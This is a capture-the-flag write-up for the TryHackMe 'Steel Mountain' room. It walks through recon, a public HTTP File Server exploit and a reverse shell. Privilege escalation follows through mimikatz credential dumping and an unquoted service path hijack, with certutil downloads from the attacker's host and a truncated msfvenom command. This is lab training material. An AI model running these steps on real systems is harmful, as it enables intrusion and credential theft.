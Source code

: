 # SteelMountain [THM](https://tryhackme.com/room/steelmountain)
![steel-mountain-01](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/steel-mountain-01.png)

## recon 

Lets kick off enumeration with `nmap`:

`nmap -T4 -p- -A -Pn 10.10.80.108`

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/nmap-res-02.png)

we have the following services:

+ An IIS V8.5 server on port 80.
+ An RPC endpoint on port 135.
+ NETBIOS-SSN on port 139.
+ SMB on port 445.
+ RDP V6.3 on port 3389.
+ An HTTPAPI on ports 5985 and 47001.
+ AN HTTP File server on port 8080.

Trying to interact with the RDP fails on an authorization error:

`Failed to connect, CredSSP required by server`. 

This happens becuase our kali machine isnt setup with kerberos. 

Lets check the SMB, see if its misconfigured, maybe we can find credetials there. 
Then well take a look at the web server and the various API's.



### SMB 445

If we try to login anonymously with `smbclient` we get kicked out:

![smbclinet-fail-03](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/smbclient-fail-03.png)


If we try `crackmapexec` this fails as well:

![crackmapexec-fail-04](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/crackmapexec-fail-04.png)


Looks like a dead end, we need creds. Lets check the HTTP server. 



### HTTP 80

Navigating towards the site's URL `http://10.10.80.108`

![site-05](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/site-05.png)


Look empty. I've tried directory busting, it only leads to an `img` directory with noting interesting. 
Source code looks empty as well:

![site-source-06](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/site-source-06.png)

Lets take a look at the file server.


### HttpFileServer 8080


If we navigate towards the target URL `http://10.10.80.108:8080`

![file-server-07](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/file-server-07.png)


We have a search feature, and a login form, but we dont need to log in to search stuff. 
Searching yields nothing, but if we check for known vulnerabilities online we find something juicy:

![exploitdb-08](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/exploitdb-08.png)

[Source](https://www.exploit-db.com/exploits/39161)


Looks like Python 2, appears to be abusing the search feature:

![exploit-analyze-09](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/exploit-analyze-09.png)


Looks promising. Worth a shot. 


## Exploit

Here is the exploitation breakdown: 

1) Download the exploit to your kali, and make sure to update your IP and port:

![update-exploit-10](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/update-exploit-10.png)


2) Place a copy of `nc.exe` in a directory of your choosing and fire off an HTTP server on port 80

`python3 -m http.server 80` 

![http-server-11](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/http-server-11.png)


3) Start the listener with `nc -lvnp 8044`


4) Execute the exploit with `./exploit.py 10.10.8.108 8080`


5) Get a shell:

![shell-12](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/shell-12.png)


Lets get system!



## Privilege Escalation 

If we run `systeminfo`:

![sysinfo-13](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/sysinfo-13.png)


We are dealing with a MS server 2012 R2. Lets try searching for stored credentials.   

I tried manual searching with:

`findstr /spin "password" *.*`

I tried searching the regestry with:

`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`

I then tried [mimikatz](https://github.com/gentilkiwi/mimikatz)
Download the tool, transfer to the clinet via python web server and `certutil`.

I tried running `vault::cred`

![mimikatz-14](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/mimikatz-14.png)

Looks like a password. I tried connecting via the RDP, same error of:

`Failed to connect, CredSSP required by server`

I tried using the password to enumerate the smb with different tools like `enum4linux` and `smbclient`,
nothing interesting came up. 

Decided to shift gears and try [winpeas](https://github.com/carlospolop/PEASS-ng/releases/tag/20230731-452f0c44) We need the `winPEASx64.exe` binary. 

1) Transfer it to the clinet using a python server with:

`python3 -m http.server 80`

2) Download it to the target with:

`certutil -urlcache -f http://10.18.22.182/winPEASx64.exe winpeas.exe`

3) Execute `winpeas.exe`

![winpeas-15](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/winpeas-15.png)

We have an unquoted service with spaces, we can potentially hijack this with our own custom binary. 
Our user also has full write permission to this directory. 

Lets examine this process. First lets run `net start` to list all running processes:

![net-start-16](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/net-start-16.png)

Lets check its properties, primarly, under which user it runs. We can do this with:

`sc qc AdvancedSystemCareService9`

![sc-16](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/sc-16.png)

It runs as the system. We can abuse this to gain system access. 

1) Create venom 

`msfvenom -p windows/x64/re`


2) Stop the service on the target with:

`net stop AdvancedSystemCareService9`


3) Download the venom to the target with:

`certutil -urlcache -f http://10.18.22.182/ASCService.exe ASCService.exe`


4) Start the listener with:

`nc -lvnp 9009`


5) Start the service with:

`net start AdvancedSystemCareService9`


6) Get system:

![root-17](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/root-17.png)
